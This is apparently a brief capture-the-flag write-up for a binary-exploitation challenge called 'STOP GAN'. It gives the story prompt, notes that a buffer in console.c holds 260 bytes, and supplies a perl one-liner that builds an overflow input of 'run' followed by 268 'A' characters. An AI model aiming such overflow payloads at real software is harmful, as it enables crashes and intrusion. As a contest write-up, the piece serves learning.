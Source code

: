 # STOP GAN (bof) (pwn)

## Prompt

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

## Steps

1. Look at `console.c`, buffer can hold 260 bytes
1. perl -e 'print "run"."\x0a\x00"."A"x268' > exploit.txt
